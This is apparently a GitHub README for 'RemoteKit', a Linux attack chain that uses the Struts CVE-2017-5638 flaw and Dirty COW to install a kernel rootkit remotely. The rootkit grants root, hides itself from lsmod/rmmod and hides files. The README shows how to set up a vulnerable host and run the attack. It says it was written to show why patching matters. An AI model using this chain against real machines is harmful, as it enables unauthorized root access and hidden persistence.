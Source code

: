 # RemoteKit

## What is this?

This is a full-chain exploit for Linux, using some well-known (and now
patched) exploits to install a rootkit remotely on a vulnerable system.

The rootkit has three functionalities, accessible by writing to the
file `/proc/sys/rootkit` once installed:

```
# Give the calling process root permissions w/o password
echo i_can_haz_root > /proc/sys/rootkit

# Hide the rootkit, so that it cannot be uninstalled and is
# invisible to lsmod/rmmod
echo im_in_ur_kernel > /proc/sys/rootkit

# Hide any file on the filesystem (you can even hide the
# /proc/sys/rootkit file for maximum lulz)
echo cant_touch_this $your_file_path > /proc/sys/rootkit
```

## Goals

Only technical vulnerabilities, no social engineering (phishing, etc). The
intended goal is to explore how easy it is to attack unpatched machines,
using only publicly documented exploits. The attack should be automated from
start to finish - no human interaction required.

Patch your machines, people!

## Setup (victim host)

To install the rootkit without having root access, you will need a kernel
that is vulnerable to the dirtycow exploit. The newest version that is
still vulnerable is 4.8.2. If you are running Ubuntu 16.04, you can install
it using:

```
curl -O http://kernel.ubuntu.com/~kernel-ppa/mainline/v4.8.2/linux-image-4.8.2-040802-generic_4.8.2-040802.201610161339_amd64.deb
curl -O http://kernel.ubuntu.com/~kernel-ppa/mainline/v4.8.2/linux-headers-4.8.2-040802-generic_4.8.2-040802.201610161339_amd64.deb
curl -O http://kernel.ubuntu.com/~kernel-ppa/mainline/v4.8.2/linux-headers-4.8.2-040802_4.8.2-040802.201610161339_all.deb
sudo dpkg -i *.deb
```

You may need to modify your GRUB config to select this kernel version
at boot. Use `uname -r` to check your running kernel version.

To install the rootkit from a remote machine, you also need to install Apache
Struts. We are using CVE-2017-5638 (yes, the same one that pwned Equifax).
Download [Tomcat](http://apache.mirrors.tds.net/tomcat/tomcat-8/v8.5.30/bin/apache-tomcat-8.5.30.tar.gz) and untar it anywhere convenient. Download [Struts 2.5.10](https://archive.apache.org/dist/struts/2.5.10/struts-2.5.10-all.zip) and uncompress it.
Install Struts 2 by copying the REST example to webapps directory (`$CATALINA_HOME$` being the root directory of Tomcat, `$STRUTS$` being the Struts 2 directory):

```
cp $STRUTS$/apps/struts2-rest-showcase.war $CATALINA_HOME$/webapps/ROOT.war
sudo $CATALINA_HOME$/bin/startup.sh
```

## Exploit (attacker host)

To remotely install the rootkit, run `./struts2.py <hostname of target>`.

If you want to install the rootkit locally (without root), run `make install`.

If you are already root, you can simply run `make && sudo insmod rootkit.ko`.
